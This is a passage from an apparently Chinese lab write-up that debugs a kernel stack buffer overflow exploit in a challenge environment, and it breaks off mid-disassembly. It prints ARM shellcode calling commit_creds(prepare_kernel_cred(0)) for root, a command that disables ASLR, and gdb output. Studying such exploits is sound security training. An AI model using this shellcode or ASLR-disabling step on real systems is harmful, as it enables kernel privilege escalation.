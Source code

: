 ### 第一处问题

为什么跑不起来呢？我们可以先分析一下 shellcode：

```c
asm(
    "    .text\n"
    "    .align 2\n"
    "    .code 32\n"
    "    .globl shellCode\n\t"
    "shellCode:\n\t"
    // commit_creds(prepare_kernel_cred(0));
    // -> get root
    "LDR     R3, =0xc0039d34\n\t" //prepare_kernel_cred addr
    "MOV     R0, #0\n\t"
    "BLX     R3\n\t"
    "LDR     R3, =0xc0039834\n\t" //commit_creds addr
    "BLX     R3\n\t"
    "mov r3, #0x40000010\n\t"
    "MSR    CPSR_c,R3\n\t"
    "LDR     R3, =0x879c\n\t" // payload function addr
    "BLX     R3\n\t");
```

shellcode 是内联汇编

> - 调用 `commit_creds(prepare_kernel_cred(0))` 提升权限
> - 调用 `mov r3, #0x40000010; MSR CPSR_c,R3;`设置 `cpsr`寄存器，使`cpu`进入用户模式

这两个思路已经很明确了，地址由于是固定的，所以只需要查询一次就可以写进汇编了。那最后两行是什么意思呢？根据注释我们可以推测最后会进入 `payload` 函数，执行 `execl` 拿到 shell。但是这里 `payload` 的地址为什么就一定是 `0x879c` 呢？在当时的环境下可能是这个值，而现在则很有可能变化。实际上，本环境开启了 ASLR：

![](https://ws1.sinaimg.cn/large/79b6884ely1fzemxkdclvj20ef014jra.jpg)

我们通过以下指令关闭：

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

这样的话每次 `payload` 的位置就固定了。我们就可以将此时的 `payload` 函数位置“硬编码”进汇编中。

### 第二处问题

然而，这其实只是解决了第一处问题。。还有一处问题，出现在哪里呢？请容我细细道来。

由于我们已经开启了 gdb，其实是可以调试的。vmlinux 提供了符号表，而会被利用的函数也知道了是 `proc_entry_write` 这个函数，因此我们就可以在这里下断点：

```
(gdb) b proc_entry_write
Breakpoint 1 at 0xc025c2cc: file drivers/vulnerabilities/kernel_build/../challenges/stack_buffer_overflow/module/stack_buffer_overflow.c, line 17.
```

我们还可以看看这个函数的汇编代码：

```
(gdb) disassemble proc_entry_write
Dump of assembler code for function proc_entry_write:
   0xc025c2cc <+0>:		push	{r4, r5, lr}
   0xc025c2d0 <+4>:		sub	sp, sp, #68	; 0x44
   0xc025c2d4 <+8>:		ldr	r0, [pc, #120]	; 0xc025c354
   0xc025c2d8 <+12>:	mov	r4, r2
   0xc025c2dc <+16>:	mov	r5, r1
   0xc025c2e0 <+20>:	bl	0xc0362f78 <printk>
   0xc025c2e4 <+24>:	mov	r2, sp
   0xc025c2e8 <+28>:	bic	r3, r2, #8128	; 0x1fc0
   0xc025c2ec <+32>:	bic	r3, r3, #63	; 0x3f
   0xc025c2f0 <+36>:	ldr	r3, [r3, #8]
   0xc025c2f4 <+40>:	adds	r2, r5, r4
```
